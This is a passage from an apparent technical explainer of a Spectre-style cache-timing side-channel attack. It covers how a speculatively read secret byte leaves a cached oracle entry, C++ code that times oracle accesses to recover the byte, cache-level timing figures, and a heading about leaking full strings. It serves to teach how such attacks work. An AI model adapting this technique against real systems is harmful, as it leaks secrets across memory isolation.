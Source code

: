 1. `secret_byte` contains leaked value (e.g., 0x73 = ‘s’)
1. `oracle.data() + 0x73` points to `oracle[115]`
1. `ForceRead()` loads `oracle[115]` into cache
1. Even after misprediction rollback, `oracle[115]` remains cached

#### 3. Cache Timing Measurement

```cpp
std::pair<bool, char> RecomputeScores(char public_byte) {
    for (size_t i = 0; i < 256; ++i) {
        // Measure access time to each oracle entry
        auto start = high_resolution_clock::now();
        ForceRead(&oracle[i]);
        auto end = high_resolution_clock::now();
        
        timing[i] = duration_cast<nanoseconds>(end - start).count();
    }
    
    // Find fastest access (cache hit)
    size_t fastest_index = find_min_element(timing);
    return {confidence_check(), static_cast<char>(fastest_index)};
}
```

### Cache Page Relationship

**Cache Hierarchy Interaction:**

```
L1 Cache (32KB typical):
├── oracle[0-127] → May fit in L1
└── oracle[128-255] → Evicted to L2

L2 Cache (256KB typical):
├── Full oracle array fits
└── Other program data

L3 Cache (8MB typical):
├── Oracle array + surrounding memory
└── Shared across CPU cores
```

**Attack Timing Characteristics:**

- **L1 Hit**: ~1-2 nanoseconds (cache hit on secret oracle entry)
- **L2 Hit**: ~10-15 nanoseconds
- **L3 Hit**: ~30-50 nanoseconds
- **Memory Miss**: ~200-300 nanoseconds (all other oracle entries)

-----

## 3. Extending to Full String Leakage

### Current Single Character Implementation
